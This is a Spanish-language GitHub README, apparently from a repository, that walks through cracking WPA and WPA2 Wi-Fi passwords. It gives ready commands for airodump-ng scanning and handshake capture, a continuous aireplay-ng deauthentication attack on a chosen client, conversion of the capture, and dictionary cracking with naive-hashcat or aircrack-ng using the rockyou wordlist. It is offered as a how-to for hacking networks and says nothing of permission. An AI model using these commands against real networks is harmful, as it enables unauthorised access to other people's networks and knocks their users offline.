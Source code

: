 # KaliLinux-WPA_WPA2_Hack
Contiene las instrucciones necesarias para hackear redes Wifi WPA y WPA2 


## Escaneo de Redes 

1. Escaneo de redes sercanas

```bash
airodump-ng wlan0
#ctrl + c
```
Esto veríamos:
```bash
B8:69:F4:19:95:AD  -72       69       24    0   1  270  WPA2 CCMP   PSK  STUDIO  
FC:EC:DA:E9:C1:65  -75       65        0    0   1  195  WPA2 CCMP   PSK  STUDIO1 
```


2. Monitoreo la red a atacar, indicando que guarde los datos.

```bash
# [EJEMPLO] airodump-ng -c CANAL --bssid MAC -w /root/Escritorio/ wlan0
airodump-ng -c 1 --bssid B8:69:F4:19:95:AD -w /root/Escritorio/ wlan0
```

## Ataque de desautenticación

3. desautenticar usuarios para obtener handshake

3.1. Monitoreo la red a atacar:
>Nota: toca esperar a que un dispositivo se conecte.

```bash
# [EJEMPLO] airodump-ng -c CANAL --bssid MAC wlan0
 airodump-ng -c 1 --bssid B8:69:F4:19:95:AD wlan0
```


3.2. Enviar paquetes de desautenticación

>Nota: el 0 significa enviar continuamente.

>Nota: si quiero atacar el AP, suprimo la -c y la MAC del station o cliente.

>Nota: Recomiendo atacar un cliente primero.

```bash
# [EJEMPLO] aireplay-ng -0 0 -a MAC_BSSID -c MAC_STATION wlan0
aireplay-ng -0 0 -a B8:69:F4:19:95:AD -c 88:BF:E4:2E:BC:32 wlan0
```
>Nota: debemos asegurarnos que el .cap esté en el Escritorio.


## Descifrar claves con el handshake FORMA 1

4. Cambiamos el nombre del .cap por uno que querramos

```bash
mv ./-01.cap nombre.cap
```


5. Cambiamos el formato de .cap a .hccapx

```bash
cap2hccapx.bin nombre.cap nombre.hccapx
```


6. Instalar Naive-Hashcat que es el servidor que decifrará la contraseña

```bash
sudo git clone https://github.com/brannondorsey/naive-hashcat
cd naive-hashcat
curl -L -o dicts/rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```


7. Ejecutamos Naive-Hashcat (recuerda cambiar "nombre" por el nombre del archivo)

```bash
HASH_FILE=nombre.hccapx POT_FILE=nombre.pot HASH_TYPE=2500 ./naive-hashcat.sh
```


8. Espera a que se termine de descifrar la contraseña de la red 

Una vez que se haya descifrado la contraseña, esa cadena se agregará al archivo "nombre.pot" que se encuentra en el directorio "naive-hashcat". La palabra 
o frase que esté después del punto y coma, será la contraseña.

>El procedimiento de descifrado de contraseña puede tardar desde solo unas horas hasta varios meses.


## Descifrar claves con el handshake FORMA 2

1. Descargar un archivo de diccionario

```bash
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```


2. Iniciar decifrado con aircrack-ng 

```bash
aircrack-ng -a2 -b MAC -w rockyou.txt nombre.cap
```
>Nota Si quieres descifrar una red WPA en lugar de una WPA2, reemplaza "-a2" por -a.


3. Espera a que diga Key Found!



## LICENSE

MIT License

Copyright (c) 2020 Luis Angel Vanegas

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
